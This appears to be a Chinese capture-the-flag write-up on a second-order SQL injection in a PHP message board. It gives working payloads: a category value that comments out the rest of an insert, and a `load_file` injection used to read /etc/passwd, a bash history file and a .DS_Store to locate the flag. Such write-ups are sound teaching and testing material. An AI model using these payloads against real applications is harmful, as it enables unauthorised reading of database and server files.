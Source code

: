 ```php
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

插入数据时进行转义，但获取 `category` 时没有转义直接拼接到了 sql 语句中执行，因此可以二次注入。

首先是发帖，设置 `category` 为 `', content=user(),/*`，那么 sql 语句变成

```sql
insert into board set category = '', content=user(),/*', title ='1', content ='2'
```

然后评论 `*/#`，sql 语句为：

```sql
insert into comment set category = '', content=user(),/*', content ='*/#', bo_id ='1'
```

则评论内容中就会显示当前用户为 `root`，随后查看 `/etc/passwd` 发现存在 `www` 用户，再查看 `/home/www/.bash_history` 发现存在 `.DS_Store` 文件。

随后查看 `.DS_Store` 文件：

```
',content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
```

解码得到 `flag` 文件名：`flag_8946e1ff1ee3e40f.php`。同样方法读取即可。
